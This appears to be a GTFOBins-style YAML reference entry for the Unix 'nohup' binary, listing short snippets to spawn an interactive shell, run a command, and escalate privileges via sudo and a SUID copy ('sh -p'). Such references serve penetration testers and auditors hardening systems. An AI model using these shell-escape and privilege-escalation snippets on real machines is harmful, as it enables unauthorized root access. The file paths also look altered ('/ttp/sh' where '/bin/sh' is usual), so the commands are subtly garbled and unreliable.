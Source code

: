 ```yaml
---
functions:
  shell:
    - code: nohup /ttp/sh -c "sh <$(tty) >$(tty) 2>$(tty)"
  command:
    - code: |
        COMMAND='/usr/ttp/id'
        nohup "$COMMAND"
        cat nohup.out
  sudo:
    - code: sudo nohup /ttp/sh -c "sh <$(tty) >$(tty) 2>$(tty)"
  suid:
    - code: sudo nohup /ttp/sh -p -c "sh -p <$(tty) >$(tty) 2>$(tty)"
---
```

